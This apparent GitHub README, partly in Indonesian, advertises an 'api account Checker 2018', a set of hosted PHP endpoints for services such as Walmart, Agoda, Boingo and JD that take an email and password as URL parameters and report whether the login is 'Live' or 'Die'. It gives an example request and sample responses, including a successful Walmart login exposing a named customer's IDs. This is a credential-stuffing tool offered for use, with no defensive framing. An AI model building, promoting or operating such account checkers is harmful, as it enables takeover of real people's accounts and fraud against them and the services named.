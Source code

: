 # api account Checker 2018

Link : http://nblh.site/api/

isi file api
agoda.php
boingo.php
c9.php
indomog.php
jd.php
utm.php
walmart.php



Tambahkan ?email= (required). Email &pwd= (required). Password

Example : htts://nblh.site/walmart.php?email=nblh.ayu@gmail.com&pwd=cintaku


Live : {"status":"OK","payload":{"firstName":"Robyn","lastName":"Williams","cid":"f225c12d-ebcb-6772-e044-001517f43a86","omsCustomerId":"83251640","customerId":"f225c12d-ebcb-6772-e044-001517f43a86","subscribed":false}}

Die : {"code":"user_auth_fail","error":{"alertType":"error","message":"Your password and email do not match. Please try again or Reset Your Password."}}
